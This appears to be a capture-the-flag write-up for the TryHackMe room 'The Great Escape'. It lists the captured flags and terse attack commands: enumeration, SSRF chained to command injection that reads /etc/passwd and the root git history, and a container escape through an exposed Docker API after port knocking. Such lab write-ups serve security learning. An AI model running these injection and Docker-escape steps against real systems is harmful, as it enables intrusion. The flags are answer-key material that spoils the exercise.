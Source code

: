 

# <div align="center">[The Great Escape](https://tryhackme.com/r/room/thegreatescape)</div>
<div align="center">Our devs have created an awesome new site. Can you break out of the sandbox?</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/aff860f5-44b7-4b8e-bb43-0f47a4c04e23" height="200"></img>
</div>


## Task 2. A Simple Webapp
Start off with a simple webapp. Can you find the hidden flag?
### Find the flag hidden in the webapp

```
THM{b801135794bf1ed3a2aafaa44c2e5ad4}
```
* ```nmap -sSCV -p- <IP>```
* ```gobuster dir -f -u http://<IP> -w /usr/share/wordlists/dirb/big.txt```
* ```curl http://<IP>/.well-known/security.txt```
* ```curl -I http://<IP>//api/fl46```

## Task 3. Root! Root?
```
THM{0cb4b947043cb5c0486a454b75a10876}
```
```
curl http://<IP>/robots.txt
http://<IP>/exif-util

http://<IP>/api/exif?url=http://api-dev-backup:8080
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;cat /etc/passwd
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;ls ~
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;cat ~/dev-note.txt
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;ls -la /root
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;git -C /root log
http://<IP>/api/exif?url=http://api-dev-backup:8080/exif?url=;git -C /root show a3d30a7d0510dc6565ff9316e3fb84434916dee8
```

## Task 4. The Great Escape
You thought you had root. But the root on a docker container isn't all that helpful. Find the secret flag

Find the real root flag
```
THM{c62517c0cad93ac93a92b1315a32d734}
```
```
cd /opt
sudo git clone https://github.com/grongor/knock.git
cd knock
./knock <IP> 42 1337 10420 6969 63000
nmap <IP> -p 2375
sudo nano /etc/docker/daemon.json
sudo systemctl stop docker
sudo systemctl start docker
docker -H <IP>:2375 images
docker -H <IP>:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt sh
cat /etc/passwd
exit
docker -H <IP>:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt bash
cd /root
ls
cat flag.txt
```
